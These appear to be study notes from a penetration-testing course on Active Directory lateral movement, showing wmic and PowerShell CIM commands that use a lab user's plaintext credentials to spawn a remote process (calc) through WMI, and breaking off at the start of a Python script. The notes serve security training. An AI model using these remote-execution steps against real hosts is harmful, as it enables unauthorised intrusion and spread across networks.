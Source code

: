 # Active Directory Lateral Movement Techniques

### WMI and WinRM
- [_Windows Management Instrumentation_](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (WMI), which is an object-oriented feature that facilitates task automation.

- WMI is capable of creating processes via the _Create_ method from the _Win32_Process_ class. It communicates through [_Remote Procedure Calls_](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) (RPC) over port 135 for remote access and uses a higher-range port (19152-65535) for session data.
- To demonstrate this attack technique, we'll first briefly showcase the _wmic_ utility, which has been [recently deprecated](https://docs.microsoft.com/en-us/windows/deployment/planning/windows-10-deprecated-features), and then we'll discover how to conduct the same WMI attack via PowerShell.
- We already encountered [_UAC remote restrictions_](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#domain-user-accounts-active-directory-user-account) for non-domain joined machines in the _Password Attacks_ Module. However, this kind of restriction does not apply to domain users, meaning that we can leverage full privileges while moving laterally with the techniques shown in this Learning Unit.
- `wmic /node:192.168.226.72 /user:jen /password:Nexus123! process call create "calc"`
- ```$username = 'jen';
	$password = 'Nexus123!';
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
	$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;```
- Now that we have our PSCredential object, we need to create a _Common Information Model_ (CIM) via the [_**New-CimSession**](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **-ComputerName** and supply the PSCredential object (**-Credential $credential**) along with the session options (**-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

- ```$options = New-CimSessionOption -Protocol DCOM
	$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
	$command = 'calc';```
- As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32_Process** to the _ClassName_ and **Create** to the _MethodName_. To send the argument, we wrap them in **@{CommandLine =$Command}**.
	- ```Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};```
- To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)
	- ```$username = 'jen';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};```
- Script:
	- ```
		import sys
		import base64
		